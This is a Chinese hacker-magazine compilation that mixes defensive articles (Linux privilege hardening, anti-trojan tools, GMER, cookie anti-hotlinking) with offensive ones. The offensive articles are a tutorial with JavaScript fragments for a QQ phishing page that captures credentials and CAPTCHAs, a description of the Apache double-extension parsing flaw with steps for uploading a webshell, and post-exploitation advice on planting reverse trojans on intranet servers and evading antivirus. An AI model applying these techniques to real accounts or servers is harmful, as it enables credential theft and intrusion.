打开 `/etc/pam.d/sshd` 文件，加入 `auth required /lib/security/pam_listfile.so item=user sense=deny file=/etc/sshduser onerr=succeed` 等配置，并创建认证文件（如 `/etc/sshduser`）写入 `root`，从而拒绝 root 直接远程登录。

### 三、只允许特定组用户 su 成 root

除了拒绝 root 用户直接远程登录系统外，还要进一步控制 root 用户的行为。默认情况下很多普通用户可通过 `su` 切换到 root。可通过 PAM 配置 `/etc/pam.d/su` 启用 `pam_wheel.so use_uid`，只允许 wheel 组用户执行 su 切换。


### 四、消减 root 权限

消减 root 权限，可以让其他用户完成 root 的一些工作，避免事无巨细都由 root 处理。频繁使用 root 管理系统会带来误操作与被攻击风险，应增加普通管理员并进行分权管理。文中以 apache 服务器为例说明该思路。

先来分析一下，一个 apache 管理员常用的命令是什么？启动、重启及停止服务器，比如 `/usr/local/apache2/bin/apachectl start`、`/usr/local/apache2/bin/apachectl stop`。我们可以新建一个用户 apadmin 来管理 apache 服务器，这里要用到 Sudo 技术……


Sudo 授权 apadmin 管理权限：运行 visudo，可以调用 sudo 的配置文件。在配置文件内添加一行 `apadmin ALL=(ALL) /usr/local/apache2/bin/apachectl` 命令……保存退出后，使用 apadmin 用户运行 `sudo /usr/local/apache2/bin/apachectl start` ……

的确可以把 apache 服务器启动，运行 `sudo /usr/local/apache2/bin/apachectl start` 时提示“password:”，这个密码不是 root 的密码，而是你当前用户 apadmin 用户的密码。

### 五、总结

Linux 的权限验证机制是很微妙的……在我们过滤 root 直接登录服务器时，使用的 sshduser 过滤 root 登录服务器……对于类 UNIX 系统的用户认证和权限管理还必须多多联想，不同的权限机制的组合会出现不同的效果。

## 四步打造超级安全电脑

无敌小龙

### 一、掐死下载者

给常看“黑客 X 档案”的朋友一定知道有这么一款木马辅助工具，它体积微小，却担当着先锋队的作用……它就是下载者！今天我就给大家介绍一款由 Kendy 编写的工具——下载者监视器……


从看到下载者监视器马上监视到该程序要下载 `http://127.0.0.1:8888/mm.exe` 文件到 `c:/mm.exe`，我们只需要点击“否”……再来介绍一款功能更加强大的工具：钛金进程防火墙……


首先运行这款进程防火墙，然后再来运行一款下载者程序，可以看到马上弹出了对话框，提示我们是否允许其运行……如果不知道这是下载者程序而选择了允许……


没过多久，就会弹出一个对话框提示是否运行 `C:/MM.EXE`，经常看杂志的朋友都应该知道，这是下载者下载到硬盘上运行的木马吧，直接选择禁止运行，且阻止了下载下来的木马的运行。同时，因为对话框弹出了木马文件的路径，我们就可以直接删除这些木马文件了。

我又测试了一下运行这个木马的情况（各位读者就不要进行这个测试了，只要知道其中的原理即可，否则中了木马就不好办了），下载的木马被运行后，可以看到马上又弹出了一个对话框，提示 del.bat 批处理文件要运行，如图 5。

很明显，这个 del.bat 就是下载者的自删除文件。

打开这个批处理文件，可以看到内容如下：

```bat
:try
del 下载者.exe
if exist 下载者.exe goto try
del %0
```

现在直接植入木马的这种情况已经很少了，通常都是通过下载者把自己的木马种植到对方的电脑上，所以能够提前堵住下载者就可以让我们避免大多数木马的袭击。


### 二、让键盘记录器无法发信

当前的盗号木马一般都是先进行键盘记录操作，然后将记录到的键盘信息发送到指定的邮箱里，如果能够把木马发信扼杀在摇篮中，也就可以保护好自己的账户安全了。

接下来要给大家介绍的这款工具就是能够防御键盘记录器和邮件发送的小鬼当差，它是由灰鸽子工作室开发制作的，功能很强大。

我们双击运行小鬼当差，其界面如图 6 所示。为了演示程序的使用，我在这里使用到一款能够发送邮件的程序，其界面如图 7 所示。单击上面的“发送邮件”按钮，可以看到马上被小鬼当差拦截住了，如图 8。只要开着这款工具，以后我们玩游戏或登录一些账户时就不会害怕被键盘记录，或是木马把我们的账户和密码发送到盗号者的邮箱中了。

### 三、从源头扼杀木马

木马为了隐藏自身伪装程序并且实现自启动，已经开始向 DLL 类型转变了，这些木马挂接自己的 DLL 文件到系统进程中，这也就是所谓的进程注入。因此，要想快速发现自己的电脑是否被种植了木马，就要去检查系统进程中的陌生 DLL 模块文件。

要查看这些模块文件，首推 wsyscheck，它能够清晰地辨识出非系统模块，并且使用红色显示出来（对于微软的 DLL 模块它是不显示的）。运行 wsyscheck，在“进程管理”中选择 IE 浏览器的进程，在下方的模块路径栏可以看到一些让你较敏感的进程，如图 9。首先查看 DLL 文件的目录、文件厂商等信息，判断是否存在可疑注入。

上面给大家介绍了如何检测自己的电脑是否中了木马，再来通过另一种方式，也就是查看系统启动项来分辨是否中了木马。我要介绍的工具就是狙剑——SnipeSword。运行该程序，然后选择启动项目，如图 10。拉到列表的最右侧，主要查看所属公司和文件创建时间，特别注意非微软公司且创建时间较新的文件。

### 四、实时防御

细数我们中木马的原因，基本上都是上网时被网页木马攻击，或在使用移动磁盘的时候被木马感染。我再推荐一款安全工具——百度安全中心，这是百度公司推出的一款免费的电脑安全防御软件，我们可以从 http://www.skycn.com 下载到该软件，安装完毕后会自动弹出一个网页到 http://an.baidu.com/protect.html。

这个安全工具是 WEB 型的，选择其中的网页防挂马功能和防止 U 盘病毒传播功能，就可以把木马传播的源头遏制住了，如图 11、图 12。相信通过本文介绍的这四个步骤，你的电脑一定会加倍地安全！


（文章中涉及到的工具：下载者监视器、钛金进程防火墙、小鬼当差、wsyscheck、狙剑 SnipeSword、百度安全中心，已经收录在光盘中）

## 带安全模式的安全利器——GMER


一提到系统安全软件，可能有很多读者会想到 IceSword（冰刃）和 syscheck，但我今天要介绍的却是一款来自于波兰的多功能安全监控分析应用软件——GMER。这款软件能够查看隐藏的进程、服务、驱动，还能够检查 rootkit 和启动项目，并且具有内置 CMD 和注册表编辑器。GMER 具有强大的监控功能，可以很好地保护系统安全。

我们可以从 http://www.skycn.com/soft/33416.html 下载到 GMER V1.0.14.14205 版，这是一款绿色软件，不用安装，直接就可以运行。运行后的界面如图 1 所示。默认页显示的是“Rootkit/Malware”，即 Rootkit 和恶意软件，如果中了内核级木马，就会在这里看到。


点击左侧的符号“>>>”，就来到了软件的主界面，GMER 所有的功能都在这儿了，如图 2。


图 2

“Processes”显示了当前系统的进程，我们可以同时结束多个进程，还可以通过“Properties（属性）”来查看进程对应的文件。选中一个进程后，在下面会显示该进程调用的库文件和线程，如图 3。


图 3

“Modules”选项显示了系统当前加载的驱动文件；“Services”是服务选项，在这里可以对服务进行启动、停止、设置自动、手动、禁用属性，还可以直接删除服务，如图 4。


图 4

“File”就不用说了，是文件管理器。别看它界面不怎么样，在手动杀毒时却有很大妙用；“Registry”是一个简单的注册表编辑器，在杀毒时可以删除木马或病毒的注册表项，如图 5。


图 5

对于“Rootkit/Malware”，我们在一开始就介绍过了，这里不再重复；“Autostart”显示的是系统的启动项，中了木马或病毒后可以在这里找到它们的启动项；“CMD”选项是其内置的 CMD，可以用来执行 CMD 命令（经我测试，最好不执行需要交互的命令，否则 GMER 可能会卡死，例如想看当前的时间，就输入“time /T”，而不要使用“time”），如图 6。


图 6


图 7

“Settings”则是 GMER 的一些设置选项，在这里可以设置 GMER 的监控选项，选择记录哪些日志，如图 7。选择好后，点“Modify”按钮，软件就会提示系统重启，新的设置重新启动后就会生效。如果选择的是记录日志，就会在“Log”选项中看到相应的日志。

GMER 的安全监控分析功能就简单介绍完了，那么它的安全模式又是怎么回事呢？不要着急，我们接着往下看。在杀毒尤其是手动杀毒中，往往要进入安全模式，但目前有些非常厉害的木马或病毒在安全模式下也会加载，甚至有的病毒会破坏安全模式，让你无法进入系统自带的安全模式。GMER 的安全模式就是为了弥补这个问题而设计的，在 GMER 的安全模式下只有四个进程，病毒是绝对不会加载的，这样我们就可以顺利地删除病毒文件和注册表项，再也不会出现无法删除和删除后病毒又回来的情况了。

怎样进入 GMER 的安全模式呢？切换到 GMER 的“CMD”选项，点“Run Safe”按钮，GMER 会询问我们是否进入 GMER 的安全模式，点“是”后系统会重新启动，并只加载 GMER，如图 8。


图 8  
图 9

启动后的 GMER 安全模式如图 9 所示，可以清楚地看到只有 4 个进程。由于病毒没有被加载运行，删除病毒文件就变得非常简单了，只需要在“文件”选项下找到病毒文件，点“Delete”就可以了。消除完病毒或木马，再切换到“Processes”选项，点“Restart”重新启动系统，再使用杀毒软件扫描一下病毒就行了。

除了以上介绍的外，GMER 其它的功能还有很多，就留给大家自己去研究吧。如果大家感觉英文版使用不方便的话，也可以从 http://ctt.onlinecdowm.com/soft/61732.htm 下载到 Gmer 1.0.14.14116 的汉化版，不过汉化版需要安装，其中的 CMD 命令也不能使用。

（文章中涉及到的 GMER V1.0.14.14205 版，已经收录在光盘中）

## Linux 安全：无懈之下的隐 ROOT 地下岗

evilangel


上期我们在 Linux 系统中从限制 root 用户登录服务器、消减 root 的工作量来减少 root 用户登录系统的次数。从安全的角度来说，这确实能对系统加强几个安全指数。这次我们还是从 root 入手，来让 root“下岗”。可能会有读者要问了，为什么我们老跟 root 过不去呢？其实，在上期杂志中我就解释过了，黑客入侵一台服务器后首要的目标就是获取 root 权限，因此我们对 root 这么苛刻也是从系统的整体安全着想的。

把 root 免职，就是降低其服务运行级别。一般情况下，我们在 UNIX 系统中运行的服务默认都是 root 在运行的。熟悉入侵的朋友都知道缓冲区溢出，在程序有问题的时候，假设它是以 root 权限运行，而程序又出现了某个变量过滤不严，这时入侵者对程序进行溢出攻击后得到的权限是什么？当然也就是 root 了。如果这个程序是阿猫阿狗运行的呢？那么溢出后的权限就是阿猫或阿狗了。比如 Windows 系统默认安装 apache 的情况下，其运行的权限就是 system，倘若 apache 出了问题被入侵者得到 Shell 的话，就可以执行添加用户、开启服务等操作了。片面地说，权限高的用户运行的程序倘若出了问题，那么入侵者也就得到了较高的权限。

很明显，对于一般常用的服务器软件，我们把运行它的用户权限“降级”，来保护服务程序出问题的时候所涉及到的权限问题。常用的服务软件要算是 apache、mysql、bind 等，今天我就以 bind 及 MySQL 为例来给大家说明。

bind 是 DNS 服务软件，互联网上的 DNS 服务器基本上都是使用 bind 软件架设的，很多其它类型的服务器不相信公共的 DNS 服务器，所以也会在本机上运行 DNS 服务。我们使用 Windows 远程登录 UNIX 服务器来说明，先来看一下 bind 运行在服务器上的信息，如图 1。


图 1

我们可以看到，执行 `netstat -ntl` 命令后列出的端口中除了 22 端口外其它都是 DNS 服务的，使用 `ps aux | grep named` 过滤 DNS 的进程，看到是 root 在运行它。也就是说我们要把它降级到普通用户来运行。上期我们使用 apadmin 普通用户来“运行” apache 服务，这并不代表 apache 服务进程守护者的身份是该用户的，只能说该用户启动了 apache 服务，所以不要认为使用 Sudo 的帮助让普通用户开启 bind 服务，就是以普通用户身份来运行。可能上边的解释有点乱，希望大家理解运行服务的用户、程序进程守护用户的区别。

其实 bind 程序给我们提供了一个参数“-u”，在运行程序时指定某个用户来运行服务，当然在系统中事先要有这个用户。比如 `/usr/local/sbin/named -u named`，可以让 named 用户来运行 named 程序，从而启动 bind 服务。运行 `named -u named` 试试，如图 2，运行程序的时候没提示有什么错误。看到这儿可能会有一些 UNIX 初学者感觉有点不明白了，这时大家查看一下系统日志就明白了，在日志中有“couldn't open pid file '/var/run/named.pid': File exists”这句，大意就是不能打开……var/run/named.pid 文件，而 .pid 一般就是类 UNIX 系统的进程文件，这和 Windows 的进程有点差不多。


图 2

其实很好理解，就是 named 没有权限向 /var/run 目录写文件，这个目录默认是 755 权限……为了服务器整体安全的考虑，我们把服务器守护进程改到一个目录。

``` 
options {
  pid-file "/var/run/named/named.pid";
};
```

这时我们在 /var/run/named 新建一个权限 700 的目录……将该目录的所有人更改成 named 用户 `chown named /var/run/named/`，再次运行 `named -u named` 命令，如图 3。


图 3

再来说讲 MySQL 数据库服务器……每个 WebShell 就读 my.ini 或 phpMyAdmin 来得到 root（MySQL）密码……

我只介绍一下类 UNIX 系统 MySQL 权限的“降级”……`useradd -d /usr/local/mysql/var/ admysql`……`/usr/local/mysql/bin/mysql_install_db --user=admysql`……`mysqld_safe -u admysql`。

在上期文章中，我们使用普通用户来管理 Apache 服务……一般的服务器要求 Apache 的配置文件权限为 600 或 400，也就是说除了 root 外其他用户无法读取该文件……

- 一、将 httpd.conf 文件权限更改为 660，并将属组改为运行服务器用户 apadmin 所在组（如 `chmod 660 httpd.conf`，`chgrp daemon httpd.conf`，apadmin 用户所在 daemon 组中）。
- 二、将 httpd.conf 配置文件用户所有权限转交给 apadmin 用户（`chown apadmin httpd.conf`），一般不建议这样做。
- 三、使用 ACL 权限机制来解决问题。

启用 ACL 管理机制，ACL 要有内核支持……还需要在 `/etc/fstab` 的挂载点字段加入 `acl`，例如：`LABEL=/ /usr ext3 defaults,acl 0 0`。

我们先运行 `getfacl /usr/local/apache2/conf/httpd.conf` 查看默认权限……再运行 `setfacl -m u:apadmin:rw /usr/local/apache2/conf/httpd.conf`……


图 4

上期文章我们主要是限制 root 的登录及“设置障碍”……ACL 权限机制在文中有特别之处，但它能解决传统 UNIX 权限解决不了的问题……

## 黑客术语小补习

### 什么是跳板？

一个具有辅助作用的肉鸡，即被你控制的一台电脑主机，利用这个主机作为一个间接工具来入侵其他主机。你入侵目标主机时所做的任何动作和命令都会先经过跳板，再由肉鸡转发到目标主机……跳板的典型作用是隐藏真实 IP 地址、规避日志追踪，并可作为代理/中继节点。


## 黑客研究院

## 移花接木——JAVASCRIPT 打造完美 QQ 钓鱼程序

血色书生


在上期杂志中我为大家演示了如何使用 JavaScript 打击盗号者，这次继续讨论 QQ 钓鱼页面的实现与改进思路……

前几天把收到的样刊仔细看了一遍，发现了关于 QQ 空间跨站钓鱼的文章。本文从“页面可信度判断”和“小号登录测试”等角度分析钓鱼页面成败因素……

针对“直接替换到类似 *.qq.com 页面仍可能被限制”的问题，作者提出 A/B 双页面方案：A 页面保存用户输入，B 页面模拟目标域加载流程……

```html
<script type="text/javascript" src="/js/common.js"></script>
<script language="javascript" src="/js/ps.js"></script>
```

这两行一定要改成：

```html
<script type="text/javascript" src="http://show8.qq.com/js/common.js"></script>
<script language="javascript" src="http://show8.qq.com/js/ps.js"></script>
```

本地运行后登录页可出现，但输入账号密码与验证码时会报错。作者说明原因与 TT 的 session+验证码连接机制有关，并引出后续绕过方法……


右栏讨论验证码获取失败问题，尝试在页面中直接嵌入 `` 与 `window.open(...)` 的不同效果，并分析缓存机制（CACHE）带来的影响……

```html
</img>
<script type="text/javascript">window.open('http://ptlogin2.qq.com/getimage?aid=xxxxxx','diaoyu');</script>
```

企图在两个页面同时调用验证码：一个给用户输入，一个连接验证码服务器更新当前验证码。结果会短时间产生不同验证码，导致失败……

通过浏览器缓存思路继续调整：不直接请求服务器，而是从 OPEN 函数得到的连接中取验证码，并强调调用时序（先获取验证码再调用 OPEN）……

```html
<!-- A.html -->
<script type="text/javascript">
window.open('http://ptlogin2.qq.com/getimage?aid=xxxxxx','diaoyu','height=15,width=15');
window.focus();
window.renewimg = function(){
  document.getElementById('verify_img').innerHTML = '';
}
</script>
```

结尾说明：账号密码提交部分可参考上期文章，建议在 onsubmit 事件中使用 GET 提交；并提示可查看修改后的 A.html 继续实践。


## Apache 扩展名解析漏洞简介

28 度的冰

昨天去借了一本书——Ajax 与 PHP Web 开发。要想运行 PHP 程序，使用 IIS 加 PHP 扩展的方式是一种很不明智的选择，不论是在安全性还是在效率上都大打折扣，于是我决定架个 Apache，去 http://httpd.apache.org/ 下载了最新版本（apache.2.2.6），同时又去 http://www.php.net/ 下载了最新的 PHP for Win（5.2.4），将 Apache、PHP 安装完毕。然后配置好 PHP，测试成功（图 1）。Apache 与 PHP 的安装、配置并非本文的重点，所以略去。


图 1

很快的，我就编写了一个查看文件的脚本：

```php
<?php
$file = ($_GET['file'])?$_GET['file']:_FILE_;
highlight_file($file);
?>
```

将其保存为 showsource.php，随后因为要做一点更改，我就将这个文件备份了一下，备份成了 showsource.php.bak，现在 web 目录下就有了两个文件。很偶然的一个机会，我访问了 showsource.php.bak，结果却让我大吃一惊，如图 2。


图 2

看到了吗？代码被高亮显示了，也就是说 showsource.php.bak 也被当成 PHP 代码解析了！当时还真有点不相信，我可是按照 Apache 的默认配置架设的啊。我又试了试 http://127.0.0.1/showsource.php.bak?file=c:/boot.ini，结果如图 3 所示。.bak 扩展名的文件真的被当成 PHP 脚本解析了，突然我有了一个幻想——showsource.php.jpg 能不能被解析呢？如果可以的话，那可就无敌了。但是测试结果却有点让人失望，代码以文本的方式原样显示了出来，如图 4。


图 3


图 4

随后我又试了试 showsource.php.rar，结果是跳出了下载页面；又尝试了 showsource.php.7z，7z 是 7zip 压缩方式的默认扩展名，结果代码也是按照 PHP 的方式解析了。这是为什么？.php.bak、.php.jpg、.php.rar、.php.7z 这些文件格式在 Apache 环境下解析方式的不同说明了什么呢？在开头安装配置 Apache 和 PHP 的时候我将配置略去不讲，可问题正是出在 Apache 的配置上。当然这不是我的错，这是 Apache 的错，配置的时候都是采用的默认配置。在 httpd.conf 文件中，有这么一块内容：

```apache
<IfModule mime_module>
    # TypesConfig points to the file containing the list of
    # mappings from filename extension to MIME-type.
    ...
</IfModule>
```

这块内容的作用就是在给定的文件扩展名与特定的内容类型间建立映射，比如 `AddType application/x-compress .7z`，就可以解释成把 .7z 扩展名映射到 application/x-compress，以一种压缩文件的格式解析。添加之后重启 Apache，我们刚才能当成 PHP 解析的 showsource.php.7z 就变成下载了。下面我们再来看看 .jpg 的映射在什么地方——在 httpd.conf 同一目录下的 mime.types 文件里：`image/jpeg jpeg jpg jpe`。

如果我们把 image/jpeg 改成别的，“jpeg、jpg、jpe”这三类扩展名的文件就会以别的方式解析。当然了 rar 也有对应的 application/x-rar-compressed，这样就能解释为什么“.php.rar、.php.jpg”不能按照 PHP 方式解析了。但是为什么“.php.bak、.php.7z”会以 PHP 脚本的方式解析呢？它们的真正扩展名并不是 php 啊。同时还可以发现 bak 和 7z 默认都是没有映射的扩展名，也就是说 Apache 并不认识这些扩展名。到这儿我们应该能够总结出问题的规律了：如果 `*.` 扩展名没有被映射，那么 `x.php.*` 会以 PHP 脚本的方式执行。下面我们来验证这一点，建立一个 test.php.asp，内容为：

```php
<?php
 echo('hello, world!');
?>
```

成功解析，如图 5。此时的测试环境是 Windows 2003 SP2，PHP for Windows 5.2.4，Apache 2.2.6。


马上打开虚拟机，进入 Fedora Core 6.0，在 Linux 下问题更为严重，在 /var/www/html/ 下建立 index.php.gz、index.php.rar、index.php.jpg、index.php.html、index.php.php3.jpg、index.php.doc，这些文件的权限我把它们设为 755（文件赋予可读、写、执行），全部能够以 PHP 方式来解析；而 index.php、index.rar、index.jpg、index.html、index.doc 可想而知都没有什么意外情况，如图 6、图 7。


显然类似 gz、jpg、doc、html 这样的文件名肯定有映射，可是 .php.* 还是被解析成了 PHP 脚本。于是我们得出以下结论：在此种环境下，形如 x.php.* 的文件会以 PHP 脚本的方式执行！此时的测试环境是 Linux 2.6.18-1.2798.fc6，PHP 5.1.6，Apache/2.2.3。漏洞的描述已经很明显了。因为时间精力有限，我没有去尝试各种系统和各种版本下 Apache 与 PHP 搭配的情况。

下面来简单谈谈该漏洞的利用与防范。对于支持 PHP 的 Windows 服务器，如果能够找到上传的地方，上传目录有执行权限，对于 .php.*，如果 * 没有被映射；对于那些通过禁止上传 php、php3、shtml 来限制上传的，上传后不改变文件名，或者部分（“.php.” 要能够保留）改变的，就可以通过上传类似 shell.php.hacker 的文件来得到 shell。对于支持 PHP 的 Linux 服务器，如果能够找到上传的地方，上传目录有执行权限，对于 .php.*，不论 * 是否被映射；对于那些通过禁止上传 php、php3、shtml 来限制上传的，上传后不改变文件名，或者部分（“.php.” 要能够保留）改变的，就可以上传类似甚至 shell.php.doc 的文件来得到 shell。那么要如何防范这种情况呢？下面是几种我能想到的方法：

- 1. 上传后的文件名重命名，比如以时间命名，或者将文件名（不包括扩展名）中的 “.” 过滤。
- 2. 对于 Windows，只要上传类型限制在少数安全的扩展名上即可。而对于 Linux 就要好好考虑类似 *.php.doc 这样的问题了，而且 *.php3.doc 也是可以以 PHP 脚本方式执行的。
- 3. 文件下载以流的方式，也就是说将文件放到站点目录以外。
- 4. 最简单的就是将上传目录设为不可执行。

发现该问题后，我上网查找了下以前是否有过类似的发现，结果是有的——“SaForums 论坛结合 Apache 扩展名解析漏洞获得 WebShell”。对于 SaForums，上传一个名为 abcd.php.gif 的图片文件，会被重命名为 XXXX_abcd.php.file，这正好符合了我们的利用条件，“.php.” 这一部分被保留了。

但是很奇怪，SaForums 是仅有的一例，难道别的 PHP 整站系统就不会有类似的问题吗？我想不是的，这个，就留给大家去发现了。

## 如何利用 Cookie 来防盗链

发页王

对于网站站长，特别是下载网站的站长，都特别厌恶盗链吧，本来就不宽裕的带宽，一盗链，搞得连正常的访问都成了问题，呜呼哀哉啊。正因为如此，对于防盗链的方法大家一般也都会这么一两招，比如：

```apache
RewriteEngine on
RewriteCond %{HTTP_REFERER} !^$
RewriteCond %{HTTP_REFERER} !^http://(bbs\.)?wfox...
```

暂且不管效果如何，这也算是一个防盗链的方法了。这种方法是根据 referer 来判断是否盗链（referer 也就是来路的意思，是在 HTTP 请求中表示在这个请求之前访问的是哪个网址），判断读取这个文件的请求是否来自于信任站点，如果不是就跳转到错误页面。这个方法，最早期来讲还是不错的，但是这个 referer 却是可以伪造的，当然我们必须要知道来路才能够伪造。问题的根源就在于 Thunder 和 FlashGet 会记录用户下载的所有文件的 referer，并上传到它的数据库里。待其他用户下载同样的文件时，就会伪造这个 referer 来请求下载，因此无数可怜的网站站长就这么被盗链了还不知道是怎么回事。

我也曾是盗链的受害者之一，痛定思痛后，终于找到了一种更好的防盗链方法。其原理很简单，既然我们不能从 referer 上防止盗链，那么就从 cookie 上来防止盗链！看到这儿，可能会有读者要说了，这么简单的方法早就知道了，随便哪个脚本都能写出 cookie 防盗链啊。但是大家考虑过没有，如果使用脚本验证后再读取整个文件再传给用户的话，小文件还好，稍微大一点的文件，内存就被消耗光了，所以我们使用 Apache 的 rewrite 模块来验证 cookie。

打开记事本，输入以下内容：

```apache
RewriteEngine on
#RewriteBase /download
RewriteCond %{HTTP_COOKIE} !.*wfoxdownloadcookies=184646841684584515.* [NC,OR]
RewriteCond %{HTTP_HOST} !^down.wfox.cn$ [NC,OR]
RewriteCond %{HTTP_REFERER} !^.*(wfox.cn/bbs.wfox.cn/).*$ [NC]
RewriteRule .*.(jpeg|png|bmp|rar|zip|exe|txt|w3x|w3m|jpg)$ http://bbs.wfox.cn/logo.gif [R,NC]
```

我详细解释一下：RewriteEngine on 是开启 rewrite 功能；RewriteBase /download 表示作用于根目录下的 download 目录（一般来说不要这句也可以）；RewriteCond 是一个规则的条件，默认情况下并排的三行 RewriteCond 是 and 的关系，但是我在前两行的末尾加上了 `[OR]`，所以这三行是“或”的关系。也就是三行中满足任意一行的条件，就执行之后的 RewriteRule 指令。

`RewriteCond %{HTTP_COOKIE} !.*wfoxdownloadcookies=184646841684584515.* [NC,OR]` 这句匹配条件是 cookie 中不含有指定字符串；其中 `%{HTTP_COOKIE}` 是 mod_rewrite 中的服务器变量；`!` 是否定；`.*` 表示任意匹配字符；`[NC,OR]` 表示忽略大小写并与下一条是“或”关系。整体含义是：如果请求中的 cookie 里不包含该字符串，就跳转到错误地址，否则继续匹配后续条件。

下面两句是常用的判断主机地址和 referer 地址，主要用于防止迅雷等下载地址伪 referer 以及基于不同的二级域名。最后的 `RewriteRule .*.(jpeg|png|bmp|rar|zip|exe|txt|w3x|w3m|jpg)$ http://bbs.wfox.cn/logo.gif [R,NC]` 就是满足上面的条件（cookie 中不含指定字串）则将匹配规则的文件请求跳转到一个 gif 上去，也就是阻止下载。

- 1. 找到 Apache 服务器 conf 目录下的 httpd.conf（Apache 配置文件），设置启用你虚拟主机或虚拟目录的 AllowOverride 权限，不清楚就搜索 `AllowOverride none`，全部替换为 `AllowOverride All`。
- 2. 在 httpd.conf 中搜索 `LoadModule rewrite_module modules/mod_rewrite.so`，若前面有 `#` 就去掉。

重启 Apache 后配置生效。对于新手推荐使用 APMServ。配置完成后，把刚才写的规则添加到 httpd.conf 中，也就是在 httpd.conf 里增加一段：

```apache
<IfModule mod_rewrite.c>
RewriteEngine on
#RewriteBase /download
RewriteCond %{HTTP_COOKIE} !.*wfoxdownloadcookies=184646841684584515.* [NC,OR]
RewriteCond %{HTTP_HOST} !^down.wfox.cn$ [NC,OR]
RewriteCond %{HTTP_REFERER} !^.*(wfox.cn/bbs.wfox.cn/).*$ [NC]
RewriteRule .*.(jpeg|png|bmp|rar|zip|exe|txt|w3x|w3m|jpg)$ http://bbs.wfox.cn/logo.gif [R,NC]
</IfModule>
```

保存文件退出，重启 Apache，规则就生效了。没有服务器权限的朋友也可以使用 htaccess，只要空间启用了 rewrite 和 htaccess。在防盗链目录下新建 `.htaccess` 文件，内容如下：

```apache
RewriteEngine on
#RewriteBase /download
RewriteCond %{HTTP_COOKIE} !.*wfoxdownloadcookies=184646841684584515.* [NC,OR]
RewriteCond %{HTTP_HOST} !^down.wfox.cn$ [NC,OR]
RewriteCond %{HTTP_REFERER} !^.*(wfox.cn/bbs.wfox.cn/).*$ [NC]
RewriteRule .*.(jpeg|png|bmp|rar|zip|exe|txt|w3x|w3m|jpg)$ http://bbs.wfox.cn/logo.gif [R,NC]
```

- 1. 打开记事本，点“另存为”，文件名 `.htaccess`（不含引号）。
- 2. 使用非 Windows 资源管理器改名（如 WinRAR）。
- 3. 上传到空间后用 FTP 改名。

另外也可在 IIS 下通过 Rewrite.dll + 相应配置达到类似效果。服务器端配置完后，还需要让站点访问者通过 cookie 验证，即在站点中设置 cookie。

```php
// 在 php 中
setcookie("wfoxdownloadcookies", "184646841684584515");

// 在 asp 中
Response.Cookies("wfoxdownloadcookies").Value="184646841684584515"
```

在 js 中是：`document.cookie="wfoxdownloadcookies=184646841684584515";`

比如我使用的 Discuz 论坛，就可以在 `viewthread.php` 的 `"<?php"` 之后添加一行：`setcookie("wfoxdownloadcookies",184646841684584515);`，也可以在 `templates\default` 目录下的 `header.htm` 文件中添加一行：`<SCRIPT LANGUAGE="JavaScript">document.cookie="wfoxdownloadcookies=184646841684584515"</SCRIPT>`，效果都是一样的。添加后，别人从你网站就可以下载了。我建议不要使用 js 来设置 cookie，因为 IE 默认安全级别是禁止 JavaScript 的。另外也不要在首页设置，最好是在下载前的一个页面里进行设置，因为很多人通过谷歌访问你的网站是不会链接到首页的。

这个方法也有弊端，比如禁用了 cookie，就下载不了任何东西了（也就不能登录论坛什么的了）；另外如果有人真心诚意地来盗你的链，俺估哪天那些下载软件连 cookie 都记录了，那这个防盗链方法也就无效了。不过真要那样的话，连论坛密码都可以被轻松记录了，相信下载软件暂时还没有到这个地步吧！

## 小编点评

其实这种防盗链方法也是可以破解的，不过由于目前使用这种防盗链方法的网站不多见，所以一般人如果猜测不到站点是使用了这种方法的话也就破解不了。总的来说本文思路非常不错，值得鼓励。

## 让端口复用来闯关内网

28度的冰 [H.S.T.]


得到一个 webshell、提权成功，或是得到了一个 sa 权限的注入点，能够执行命令，这都是让人高兴的事儿。但紧接着，下面遇到的情况可能就会让你高兴不起来了：服务器是在内网中，也就是说只有一个内网的 IP 地址。相信很多人都遇到过这样的情况，但我不敢保证每个人都明白其中的原理，所以我就再啰嗦几句。Web 服务器处在内网，我们是怎么访问到的呢？实际上它利用的是 NAT 技术。

### 小知识：什么是 NAT？

NAT 的英文全称是 “Network Address Translation”，中文意思是“网络地址转换”，它是一个 IETF（Internet Engineering Task Force，Internet 工程任务组）标准，允许一个整体机构以一个公用 IP（Internet Protocol）地址出现在 Internet 上。

其实 NAT 就是用来解决 IPv4 所能提供的 IP 地址远远不足而产生的。假设一个网段只有一个公网 IP（202.204.80.1），大家都通过这个 IP 上网，那么其内网 IP 一般情况下就是以下三种形式：

- 10.x.x.x
- 172.16.x.x 至 172.31.x.x
- 192.168.x.x

至于如何通过 NAT 上网不是本文的重点，所以略去不讲了。我们来讨论公网是如何访问内网资源的问题：假设 IP 为 10.0.0.8 的主机架设 Web 服务器，要求不仅能被内网访问，还要能被公网访问，该怎么做呢？方法其实很简单：只要在网关处做一个端口映射就行了，也就是将 202.204.80.1 的 80 端口映射到内网 IP 为 10.0.0.8 的 80 端口上即可。这样，我们使用浏览器访问 202.204.80.1，其实也就是访问 10.0.0.8 的网络资源。为了方便管理，有的管理员会把终端端口（默认是 3389）也映射到内网，这就不难解释为什么有时登录远程桌面后会发现对方只有一个内网 IP 地址了。

原理已经介绍完了，我们回过来解决遇到的问题——能够以高权限执行系统命令，但是目标服务器却是在内网中的。下面是一个很容易想到的解决方法：上传一个反弹的木马，可以使用 webshell 上传，或者使用 vbs 下载者下载，或者使用 ftp、tftp、exe2bat 等进行上传。上面这些方法中，使用 webshell 和 exe2bat 的方式上传可以不考虑防火墙因素，其它三种方法都有可能被防火墙所拦截。

另外，不管通过怎样的方法将木马上传到对方电脑，木马运行后也有可能被防火墙拦截，或者被杀毒软件查杀。就个人而言，我是很忌讳出现被杀毒软件发现的情况的，因为这样很容易打草惊蛇，所以在 webshell 的选择上，我尽量使用一句话木马，在反弹 cmdshell 方面我也是使用自己编译的程序。当然有些木马穿墙能力很强，或者目标主机根本就没有防火墙，而且也没有被杀，主机就能成功上线。但是即使对方主机上线了，还是有几个问题要考虑的：

- 要保证木马的作者没有在木马中加入自己预留的后门；
- 使用木马管理主机不太方便，比如有的木马界面传输效果远不如终端服务的远程桌面效果；
- 对方杀毒软件要是升级了，有可能会暴露。

还有一种情况是“反弹木马”永远不可能做到的，那就是对方主机不能上网。这种情况是存在的，而且就我来看为数还不少呢。这和 NAT 的设置有关，也可以理解成是管理员出于安全因素考虑的，遇到这种情况最令人头疼。下面我就向大家介绍一下如何通过端口复用技术突破内网限制，连接对方的远程桌面。

